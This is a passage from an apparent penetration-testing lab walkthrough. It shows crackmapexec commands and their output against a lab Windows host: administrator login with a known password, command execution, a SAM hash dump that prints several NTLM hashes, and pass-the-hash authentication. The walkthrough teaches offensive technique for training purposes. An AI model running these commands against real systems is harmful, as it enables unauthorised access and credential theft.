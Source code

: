 ```
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] EC2AMAZ-408S766\administrator:sebastian (Pwn3d!) ←
```

_Verify successful authentication by executing a simple command, such as `whoami`, to confirm the obtained privileges._

`crackmapexec smb 10.4.23.124 -u administrator -p 'sebastian' --local-auth -x 'whoami'`:
```
SMB         10.4.23.124     445    EC2AMAZ-408S766  [*] Windows 10.0 Build 14393 (name:EC2AMAZ-408S766) (domain:EC2AMAZ-408S766) (signing:False) (SMBv1:False)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] EC2AMAZ-408S766\administrator:sebastian (Pwn3d!)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] Executed command 
SMB         10.4.23.124     445    EC2AMAZ-408S766  ec2amaz-408s766\administrator ←
```

_Dump SAM hashes to retrieve user password hashes from the target machine._

`crackmapexec smb 10.4.23.124 -u administrator -p 'sebastian' --local-auth --sam`:
```
SMB         10.4.23.124     445    EC2AMAZ-408S766  [*] Windows 10.0 Build 14393 (name:EC2AMAZ-408S766) (domain:EC2AMAZ-408S766) (signing:False) (SMBv1:False)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] EC2AMAZ-408S766\administrator:sebastian (Pwn3d!)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] Dumping SAM hashes
SMB         10.4.23.124     445    EC2AMAZ-408S766  Administrator:500:aad3b435b51404eeaad3b435b51404ee:94ebf4c21e29d139fd332a535626ad6e::: ←
SMB         10.4.23.124     445    EC2AMAZ-408S766  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.4.23.124     445    EC2AMAZ-408S766  DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.4.23.124     445    EC2AMAZ-408S766  sysadmin:1011:aad3b435b51404eeaad3b435b51404ee:d6c5976e07cdb410be19b84126367e3d:::
SMB         10.4.23.124     445    EC2AMAZ-408S766  auditor:1012:aad3b435b51404eeaad3b435b51404ee:ba9a038e579c1d0263aedcef043243d9:::
SMB         10.4.23.124     445    EC2AMAZ-408S766  demo:1013:aad3b435b51404eeaad3b435b51404ee:74ed32086b1317b742c3a92148df1019:::
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] Added 6 SAM hashes to the database
```

**Explanation:** Dumping SAM hashes allows you to retrieve hashed credentials for all local users on the machine, which can be cracked or reused in other attacks.

_Use the retrieved NTLM hash to authenticate and execute commands without knowing the plaintext password._

`crackmapexec smb 10.4.23.124 -u administrator -H aad3b435b51404eeaad3b435b51404ee:94ebf4c21e29d139fd332a535626ad6e --local-auth -x 'whoami'`:
```
SMB         10.4.23.124     445    EC2AMAZ-408S766  [*] Windows 10.0 Build 14393 (name:EC2AMAZ-408S766) (domain:EC2AMAZ-408S766) (signing:False) (SMBv1:False)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] EC2AMAZ-408S766\administrator aad3b435b51404eeaad3b435b51404ee:94ebf4c21e29d139fd332a535626ad6e (Pwn3d!)
SMB         10.4.23.124     445    EC2AMAZ-408S766  [+] Executed command 
SMB         10.4.23.124     445    EC2AMAZ-408S766  ec2amaz-408s766\administrator ←
```
